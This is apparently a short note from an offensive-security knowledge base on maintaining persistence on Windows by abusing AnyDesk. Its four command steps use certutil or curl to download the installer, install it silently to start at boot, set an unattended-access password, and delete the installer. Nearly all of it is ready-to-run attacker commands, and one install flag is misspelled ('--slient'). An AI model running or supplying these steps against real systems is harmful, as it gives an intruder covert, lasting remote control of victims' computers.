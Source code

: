 # Living off the Land

## 01 - Download AnyDesk Installer

```
C:\> certutil.exe -urlcache -split -f https://download.anydesk.com/AnyDesk.exe %LOCALAPPDATA%\Temp\Anydesk.exe

C:\> curl.exe -o %LOCALAPPDATA%\Temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
```

## 02 - Install AnyDesk

```
C:\> %LOCALAPPDATA%\Temp\Anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
```

## 03 - Set Password

```
C:\> echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
```

## 04 - Delete Anydesk

```
C:\> del %LOCALAPPDATA%\Temp\anydesk.exe
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Maintaining Access/Persistence/Windows/Remote Monitoring and Management/AnyDesk]]

### Huntress

- [Huntress: RATs! Remote Management Software from the Hacker’s Perspective](https://www.huntress.com/blog/rats-remote-management-software-from-the-hackers-perspective)